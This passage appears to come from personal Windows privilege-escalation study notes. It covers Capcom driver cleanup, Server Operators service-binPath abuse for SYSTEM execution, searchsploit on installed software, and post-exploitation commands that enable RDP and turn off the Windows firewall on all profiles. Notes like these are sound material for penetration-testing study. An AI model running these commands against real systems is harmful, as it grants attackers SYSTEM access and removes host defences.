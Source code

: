 Don't forget to clean up!

```
C:\> reg delete HKCU\System\CurrentControlSet\Capcom
```

If we need to verify the driver status at any point we can use the DriverView.exe tool from Nirsoft: http://www.nirsoft.net/utils/driverview.html (`.\DriverView.exe /stext drivers.txt; cat drivers.txt | findstr Capcom`).

### Server Operators

Effectively, members of this group are like Admins.

This grants you:
- `SeBackupPrivilege`
- `SeRestorePrivilege`
- Ability to manage and control Windows Services
    - Can use `PsService.exe` from SysinternalsSuite to check permissions on services by doing `.\PsService.exe security <SERVICE_NAME>`
    - For a vulnerable service running as SYSTEM that we have rights over, let's `sc config <SERVICE_NAME> binPath="<PAYLOAD>"` this and restart the service for SYSTEM execution



## Software Vulnerabilities

Some software have security defects (crazy). Some of these defects involve running tasks or starting services running with elevated privileges and do not perform checks to validate these actions. Can exploit by spawning cmd console with elevated privileges. Searchsploit on installed programs.


## Post Privesc

### Enable RDP

```
C:\> reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0 /f

C:\> netsh advfirewall set allprofiles state off
```